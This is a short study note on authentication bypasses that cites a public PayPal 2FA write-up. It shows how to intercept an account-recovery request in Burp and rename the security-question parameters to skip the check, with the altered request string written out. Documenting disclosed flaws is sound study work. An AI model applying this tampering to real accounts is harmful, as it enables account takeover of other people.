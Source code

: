 # Authentication Bypasses

## 2FA Password Reset

Reading: https://henryhoggard.co.uk/blog/Paypal-2FA-Bypass

You are resetting your password, but doing it from a location or device that your provider does not recognize. 
So you need to answer the security questions you set up. 
The other issue is that those security questions are also stored on another device (not with you) and you don’t remember them.


Q: What is the name of your favourite teacher?
Answer: A1

Q: What is the name of the street you grew up on?
Answer: A2

Input: A1=a, A2=a, Output: Not quite, please try again.

Steps:
1. Intercept the request with burp

2. Change the request from
```secQuestion0=a&secQuestion1=a&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746```
to
```secQuestion3=a&secQuestion4=a&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746```

Answer:
```secQuestion3=a&secQuestion4=a&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746```




